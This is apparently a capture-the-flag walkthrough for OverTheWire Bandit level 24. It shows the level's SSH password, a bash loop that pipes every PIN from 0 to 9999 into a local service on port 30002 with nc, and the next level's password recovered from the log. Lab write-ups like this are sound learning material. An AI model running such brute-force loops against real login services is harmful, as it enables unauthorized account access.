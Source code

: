 # bandit 24

    # ssh bandit24@bandit.labs.overthewire.org
    password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

    # mkdir /tmp/vving && cd /tmp/vving
    # cat shell.sh

    i=0
    while [ $i -lt 10000 ]
    do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i | nc localhost 30002 >> log
        i=$(($i+1))
    done

    # bash shell.sh

    # cat log | sort | uniq
    The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

